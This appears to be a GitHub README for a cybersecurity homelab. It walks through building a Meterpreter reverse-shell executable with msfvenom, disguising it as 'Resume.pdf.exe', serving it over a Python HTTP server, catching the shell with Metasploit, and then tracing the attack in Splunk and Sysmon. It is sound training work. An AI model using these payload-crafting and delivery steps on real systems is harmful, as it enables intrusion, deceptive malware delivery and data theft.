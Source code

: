 # Cybersecurity Operations Center Homelab

## Objective and Description
In the field of cybersecurity, we need an environment to test new tools and learn new techniques. The intention for this project is to build a cybersecurity homelab in order to execute malware and other exploits so that we can gain insights, observe telemtry/alerts, and learn about malicious indicators of compromise (IOCs). We opt to experiment in a virtual environment (preferably a sandbox) so that we dont cause unnecessary harm to a production or valuable environment. In this instance we will use virtual box. The tools we will be using will be a target Windows 10 host machine that has Sysmon and the Splunk SIEM downloaded and deployed. The other tool will be an attacker machine using Kali Linux. We will craft our own exploit and malware in Kali to send it to our target host. We will then switch to our target machine and execute the malware on there. This homelab fullfils two obejectives; a blue team and a red team objective. The defense tools on our target host help us observe telemetry and logs to see what charactersistics an exploit or attack might consist of in real time. On the other hand, the ethical hacking done on our attacker kali machine helps us understand how attackers craft malware, identify vulnerabillities, and compromise their targets. 

### Skills Learned
- Red Team: How to run and configure Kali Linux and tools within the system
- Blue Team: Configure and deploy Splunk Enterprise with Sysmon feeding it data
- Setup an internal network and statically assign IPs so that two hosts can establish connections
- Use commands like ipconfif, ifconfig, ping, and netstat. This helped with checking host IPs, checking whether a host can be pinged, and checking what connections are established on my machine
- Nmap to scan ports to see what their statuses are
- Metasploit to listen in with a multi handler
- Crafting malware with a payload using msfvenom tool
- Create a http server to host the malware on
- Identify telemtry via Splunk and apply curated searches and investigations to look deep into data

  
  

### Tools Used
- Vitualbox
- Windows 10
- Kali Linux
- Splunk Enterprise
- Sysmon
- Python3 -m
- Msfvenom
- Msfconsole
- Meterpreter Reverse Shell TCP
- Nmap
- Windows task manager
- Windows Command Prompt

## Steps
- Step 1: We first must start by making sure that the Splunk on our target host is configured to properly ingest data transferred from Windows Sysymon into an index created inside Splunk. This is done by editing the inputs.conf file to make sure sysmon is configured in the Splunk's inputs.conf file to be ingested. Then we paste this edited inputs.conf file into the local folder in Splunk and restart the service so that it is saved. This should be done first since we want to observe how the host reacts and what it alerts after the malware has been executed.
  
  <img src="https://i.imgur.com/rnv3QnG.png" height="80%" width="80%" alt="Cyber SOC Homelab Steps"/>
- Step 2: After placing the inputs.conf file in the local folder of Splunk and restarting the process, we now have to create an index in Splunk Enterprise called " endpoint". This is because that is what is written in the inputs.conf file and it will know exactly where to dump the data within the Splunk application. We also need to download an add-on app in Splunk that helps us parse incoming Sysmon data.
  
  <img src="https://i.imgur.com/v5VKtfz.png" height="40%" width="40%" alt="Cyber SOC Homelab Steps"/> <img src="https://i.imgur.com/b6gPxTp.png" height="40%" width="40%" alt="Cyber SOC Homelab Steps"/>
- Step 3: On target Windows machine, we use the "ping" command on the command prompt followed by the IP address of the Kali machine to establish connectivity in the internal network we set up between the two machines. We can't do it the other way around because the Windows firewall rule blocks any incoming connections.
  
  <img src="https://i.imgur.com/ENcKJG1.png" height="80%" width="80%" alt="Cyber SOC Homelab Steps"/> 
- Step 4: On the Kali attacker machine, we run "nmap" against the Windows target machines with the "-A" flag meaning scan all ports and the "Pn" flag meaning to skip pings. After nmap finished its scan on all ports, we see that port 3389 is open which is the port for Remote Desktop Protocol (RDP). This allows for remote connections to your host which is dangerous to have open in any production or enteprise environment.
  
 <img src="https://i.imgur.com/sxsqLmU.png" height="80%" width="80%" alt="Cyber SOC Homelab Steps"/> 

- Step 5: Now its time to create our malware on our attacker Kali Linux machine. We use the "msfvenom" tool to build it. We start of by using a meterpreter reverse shell as our payload. To get a list of payloads; we use the "msfvenom -l payloads" command. We search through the list to find our meterpreter reverse shell payload and copy it to use fo later. Now we can compile the malware. The commad we use is as follows: msfvenom -p (add the copied payload here) lhost= (add the IP address of the attacker machine here) lport= (add the port for the meterpreter here which is 4444) -f (this flag is for the format the file we are creating is in which is exe) -o (this flag is for what you want to name your malware that the target will see; we will name it Resume.pdf.exe).
  
   <img src="https://i.imgur.com/6QlFvXu.png" height="40%" width="40%" alt="Cyber SOC Homelab Steps"/> <img src="https://i.imgur.com/NrDwruw.png" height="40%" width="40%" alt="Cyber SOC Homelab Steps"/>
- Step 6: Next, we need open up a handler that will listen to the 4444 port that we configured in our malware. We do this by open up metasploit by typing "msfconsole". We will us the multi handler by typing in "use exploit/multi/handler" and clicking enter. We will be in teh exploit itself. From here we check the options to see what we can configure. We change the what is in the "payload options" from the default payload to the payload that we used for our malware. We also change the "lhost" section to our attacker machine's IP address and make sure all of these changes are saved. After this, we start the handler with the "exploit" command. Now we are listening in and waiting until our target machine executes our malware.
  
  <img src="https://i.imgur.com/NfuX5p9.png" height="40%" width="40%" alt="Cyber SOC Homelab Steps"/> <img src="https://i.imgur.com/a9EjuJD.png" height="40%" width="40%" alt="Cyber SOC Homelab Steps"/>

-Step 7: We need to set up an HTTP server on our attacker Kali machine so that our target machine can download our malware. In this case we will use python to this in the same directory as our malware. We type "python3 -m http.server 9999" to create it and now our test machine should be able to access it and download our malware. Now we are done on Kali and must wait for our malware to be executed

<img src="https://i.imgur.com/YFRJXKS.png" height="80%" width="80%" alt="Cyber SOC Homelab Steps"/> 

-Step 8: We hop back on our target Windows 10 machine and disable Windows Defender and anti virus. We head to our kali serviced web page that has the malware on it. We download the malware and run it. Now that the malware has been executed, we open up the command prompt with administrator privilages. We type in "netstat -anob" and we see an established connection to our Kali attacker machine. We also use the PID from that connection output and open it up on windows task manager to see that it is indeed the malware that was executed

<img src="https://i.imgur.com/OKCqc6N.png" height="30%" width="30%" alt="Cyber SOC Homelab Steps"/> <img src="https://i.imgur.com/y4eibW7.png" height="30%" width="30%" alt="Cyber SOC Homelab Steps"/> <img src="https://i.imgur.com/CvvQhNA.png" height="30%" width="30%" alt="Cyber SOC Homelab Steps"/>

-Step 9: Jumping back to our Kali machine, it looks like we have a connection where we were listening in with our handler. Now we have control over the target machine. We now run a few commmands. We type in the "shell" command to establish a shell on our target machine. We also run the "net user", "net localgroup", and "ipconfig" commands to exfiltrate more information from the target machine. After this, we will check back on our Splunk SIEM to see what kind of telemetry has been generated.

<img src="https://i.imgur.com/im8iLwV.png" height="30%" width="30%" alt="Cyber SOC Homelab Steps"/> <img src="https://i.imgur.com/nxwJ7c5.png" height="30%" width="30%" alt="Cyber SOC Homelab Steps"/> <img src="https://i.imgur.com/0AF9kAv.png" height="30%" width="30%" alt="Cyber SOC Homelab Steps"/>


-Step 10: Back on our Splunk SIEM, we search for our "index=endpoint" but at the end of it we query the Kali attacker machine's IP address. It would like this "index=endpoint 192.168.20.11". We scroll down to discover that one destination port was targeted and it was the 3389 port for RDP. Some questions an analyst would ask are; "Should this machine be attempting to connect to RDP?, "What machine is this?", "Who does is belong to?", or "How is it able to listen into and scan my ports?". 

<img src="https://i.imgur.com/UmPMzkS.png" height="80%" width="80%" alt="Cyber SOC Homelab Steps"/>

Step 11: We can further dig deeper into other events that were logged by Splunk. This time we can search with the name of the malware at the end so; "index=endpoint Resume.pdf.exe. We have 13 events and 7 event codes generated. We delve deeper by investigating the first event code out of 7. By expanding this event, we can see that a parent process had spawned another process which ran a cmd.exe. We also see the process id 5428 which we could use to query our data to see what that command had done. Instead we opt with the process guid. We copy the process guid characters and paste it at the end of our "index=enpoint" instead using the malware name or another process id. This would looklike: "index=endpoint d542c381... ". This shows use exactly which commands the attacker used to exfiltrate data displayed in our Splunk.

 <img src="https://i.imgur.com/aP18Q4u.png" height="40%" width="40%" alt="Cyber SOC Homelab Steps"/> <img src="https://i.imgur.com/W0wafAz.png" height="40%" width="40%" alt="Cyber SOC Homelab Steps"/>



